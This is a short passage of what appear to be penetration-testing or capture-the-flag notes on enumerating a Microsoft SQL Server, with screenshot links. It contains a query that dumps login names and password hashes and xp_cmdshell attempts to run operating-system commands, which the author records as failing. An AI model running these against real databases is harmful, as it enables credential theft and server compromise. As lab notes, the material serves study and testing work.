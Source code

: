 ![list users](../.res/2022-09-22-08-38-03.png)  
- We do not have enough rights to create a user
- `SELECT CONCAT(sp.name, '***', master.sys.fn_varbintohexstr(sl.password_hash)) from master.sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id`  
![users](../.res/2022-09-23-11-09-42.png)
- We can check the MS SQL version we have `SELECT @@VERSION AS 'SQL Server Version';`  
![ms sql version](../.res/2022-09-22-08-55-51.png)  
- Itried this for cmd execution but it is not working
```sql
xp_cmdshell {'whoami'}
EXEC master..xp_CMDShell 'whoami'
```
- Check if we have other db `select name from sys.databases;`